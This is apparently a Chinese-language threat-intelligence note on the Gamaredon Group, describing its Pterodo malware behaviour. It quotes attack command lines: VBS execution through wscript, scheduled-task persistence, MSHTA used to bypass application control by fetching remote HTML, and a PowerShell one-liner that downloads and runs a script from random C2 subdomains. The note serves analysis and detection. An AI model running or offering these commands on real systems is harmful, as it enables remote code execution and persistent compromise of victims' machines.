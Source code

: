 # Gamaredon Group

## 特征

1. depended.exe负载会执行两个VBS脚本:

> "CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\roaming\reflect.rar //e:VBScript //b

>	"CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\local\temp\deep-thoughted. //e:VBScript //b

然后会创建计划任务来确保持久性SCHTASKS /CREATE /sc minute /mo 10 /tn "deep-thoughted" /tr "wscript.exe " CSIDL_COMMON_PICTURES\deep-thoughted.ppt //e:VBScript //b" /F，该计划任务每10分钟运行一次.
当然，该组织也会使用MSHTA来绕过应用程序控制策略:"CSIDL_SYSTEM\cmd.exe" /c CSIDL_SYSTEM\mshta.exe http://域名/FILM.html /f id=[REDACTED].

2. 投递的Pterodo恶意软件活跃时将会通过其他的命令控制器下载脚本和工具，然后创建计划任务.

```bash
"CSIDL_SYSTEM\wscript.exe" CSIDL_PROFILE\appdata\local\temp\12382. //e:VBScript //b
"CSIDL_SYSTEM\cmd.exe" /c CSIDL_SYSTEM\mshta.exe http://域名/7-ZIP.html /f id=<?,?>
CSIDL_SYSTEM\mshta.exe http://域名/7-ZIP.html /f id=<?,?>
//MSHTA执行绕过
"CSIDL_SYSTEM\schtasks.exe" /CREATE /sc minute /mo 12 /tn "MediaConverter" /tr "wscript.exe " CSIDL_COMMON_MUSIC\mediatv.mov //e:VBScript //b " /F"
"CSIDL_SYSTEM\schtasks.exe" /CREATE /sc minute /mo 12 /tn "VideoHostName" /tr "wscript.exe " CSIDL_COMMON_VIDEO\videotv.m3u //e:VBScript //b " /F"
//每12分钟执行
```

3. 恶意软件经常以随机子域作为命令控制器.

```powershell
"powershell.exe" $tmp = $ (New-object net.webclient) .DownloadString('http://'+[System.Net.DNS]::GetHostAddresses([string]$(Get-Random)+'.域名')+'/get.php');Invoke-Expression $tmp
```
